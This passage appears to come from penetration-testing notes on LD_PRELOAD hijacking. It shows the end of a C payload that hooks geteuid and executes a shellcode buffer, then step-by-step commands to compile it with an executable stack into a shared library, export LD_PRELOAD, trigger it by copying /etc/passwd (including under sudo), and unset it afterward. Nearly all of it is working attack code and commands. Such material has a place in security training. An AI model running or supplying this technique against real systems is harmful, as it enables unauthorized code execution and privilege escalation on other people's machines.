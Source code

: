 ```c
                int (*ret)() = (int(*)())buf;
                ret();
        }
        else
        {
                printf("HACK: returning from function...\n");
                return (*old_geteuid)();
        }
        printf("HACK: Returning from main...\n");
        return -2;
}
```
Compile code
```bash
gcc -Wall -fPIC -z execstack -c -o payload.o payload.c
gcc -shared -o payload.so payload.o -ldl
```
Export the library function
```bash
export LD_PRELOAD=/home/offsec/payload.so
```
Execute a binary that will excute our payload
```bash
cp /etc/passwd /tmp/testpasswd

# sudo
sudo cp /etc/passwd /tmp/testpasswd
```
Unset (When tidying up)
```bash
unset LD_PRELOAD
```

